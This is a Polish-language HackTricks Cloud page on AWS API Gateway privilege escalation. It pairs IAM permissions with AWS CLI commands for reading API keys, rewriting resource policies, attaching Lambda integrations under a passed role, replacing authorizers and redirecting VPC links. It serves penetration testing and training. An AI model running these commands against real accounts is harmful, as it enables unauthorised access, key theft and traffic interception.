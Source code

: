 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Aby uzyskać więcej informacji, sprawdź:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Dzięki temu uprawnieniu możesz generować klucze API dla skonfigurowanych API (na region).
```bash
aws --region <region> apigateway create-api-key
```
**Potencjalny wpływ:** Nie możesz uzyskać podwyższonych uprawnień za pomocą tej techniki, ale możesz uzyskać dostęp do wrażliwych informacji.

### `apigateway:GET`

Dzięki temu uprawnieniu możesz uzyskać wygenerowane klucze API skonfigurowanych API (na region).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potencjalny wpływ:** Nie możesz uzyskać podwyższonych uprawnień za pomocą tej techniki, ale możesz uzyskać dostęp do wrażliwych informacji.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Dzięki tym uprawnieniom możliwe jest modyfikowanie polityki zasobów API, aby uzyskać dostęp do jego wywołania i nadużyć potencjalnego dostępu, jaki może mieć brama API (np. wywołując podatną lambdę).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potencjalny wpływ:** Zazwyczaj nie będziesz w stanie bezpośrednio uzyskać podwyższonych uprawnień za pomocą tej techniki, ale możesz uzyskać dostęp do wrażliwych informacji.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Wymaga testowania
{% endhint %}

Napastnik z uprawnieniami `apigateway:PutIntegration`, `apigateway:CreateDeployment` i `iam:PassRole` może **dodać nową integrację do istniejącego API Gateway REST API z funkcją Lambda, która ma przypisaną rolę IAM**. Napastnik może następnie **wywołać funkcję Lambda, aby wykonać dowolny kod i potencjalnie uzyskać dostęp do zasobów związanych z rolą IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalny wpływ**: Dostęp do zasobów związanych z rolą IAM funkcji Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Wymaga testowania
{% endhint %}

Napastnik z uprawnieniami `apigateway:UpdateAuthorizer` i `apigateway:CreateDeployment` może **zmodyfikować istniejącego autoryzatora API Gateway**, aby obejść kontrole bezpieczeństwa lub wykonać dowolny kod podczas składania żądań API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalny wpływ**: Ominięcie kontroli bezpieczeństwa, nieautoryzowany dostęp do zasobów API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Wymaga testowania
{% endhint %}

Napastnik z uprawnieniem `apigateway:UpdateVpcLink` może **zmodyfikować istniejące połączenie VPC, aby wskazywało na inny Load Balancer, potencjalnie przekierowując prywatny ruch API do nieautoryzowanych lub złośliwych zasobów**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potencjalny wpływ**: Nieautoryzowany dostęp do prywatnych zasobów API, przechwytywanie lub zakłócanie ruchu API.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
